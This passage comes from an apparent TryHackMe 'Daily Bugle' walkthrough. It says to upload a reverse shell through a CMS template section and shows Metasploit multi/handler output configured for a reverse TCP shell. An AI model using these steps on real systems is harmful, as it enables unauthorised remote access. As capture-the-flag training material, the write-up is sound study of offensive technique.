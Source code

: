 <a href="/assets/images/tryhackme/daily-bugle/8.png"><img src="/assets/images/tryhackme/daily-bugle/8.png"></a>

Let's upload our reverse shell on the `template` section.
<a href="/assets/images/tryhackme/daily-bugle/9.png"><img src="/assets/images/tryhackme/daily-bugle/9.png"></a>

Now, set up our listener.
```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:
```